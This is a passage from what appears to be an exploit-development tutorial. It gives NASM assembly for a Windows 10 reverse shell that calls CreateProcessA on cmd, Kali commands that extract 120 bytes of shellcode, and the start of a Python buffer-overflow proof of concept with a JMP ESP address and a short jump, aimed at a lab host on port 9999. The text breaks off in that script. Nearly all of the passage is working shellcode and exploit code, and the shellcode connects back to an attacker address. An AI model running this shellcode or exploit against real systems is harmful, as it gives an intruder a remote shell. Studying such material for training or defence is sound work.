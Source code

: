 ```nasm
	push edx		; dwY - NULL
	push edx		; dwX - NULL
	push edx		; pTitle - NULL
	push edx		; pDesktop - NULL
	push edx		; pReserved - NULL
	xor eax, eax
	add al, 44
	push eax		; cb - size of structure
	mov eax, esp		; pStartupInfo

	push ebx		; pProcessInfo
	push eax		; pStartupInfo
	push edx		; CurrentDirectory - NULL
	push edx		; pEnvironment - NULL
	push edx		; CreationFlags - 0
	xor eax, eax
	inc eax
	push eax		; InheritHandles -TRUE - 1
	push edx		; pThreadAttributes -NULL
	push edx		; pProcessAttributes - NULL
	push ecx		; pCommandLine - pointer to "cmd"
	push edx		; ApplicationName - NULL
	
	mov ebx, 0x74f36630	; CreateProcessA - Win10 1803
	call ebx

```

No we'll compile with nasm and extract our shellcode out.

```
root@kali:~# nasm -f elf32 -o revshell.o revshell.nasm
root@kali:~# ld -o revshell revshell.o

root@kali:~# for i in $(objdump -d win10revshell |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x50\x50\x50\x31\xdb\xb3\x06\x53\x40\x50\x40\x50\xbb\x30\x97\x4e\x75\x31\xc0\xff\xd3\x96\x68\xc0\xa8\x2f\x80\x66\x68\x11\x5c\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x56\xbb\xe0\x5e\x4e\x75\xff\xd3\xba\x63\x63\x6d\x64\xc1\xea\x08\x52\x89\xe1\x31\xd2\x83\xec\x10\x89\xe3\x56\x56\x56\x52\x52\x31\xc0\x40\xc1\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04\x2c\x50\x89\xe0\x53\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51\x52\xbb\x30\x66\xf3\x74\xff\xd3
```

And we have 120 bytes of reverse shellcode! We squeezed by with 2 bytes left to spare.

Let's update our PoC

```python
#!/usr/bin/python

import socket

host = '192.168.47.132'
port = 9999


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)


# 625011AF
jmp_esp = "\xaf\x11\x50\x62"

# max short negative JMP
short_jmp = "\xeb\x80"

```
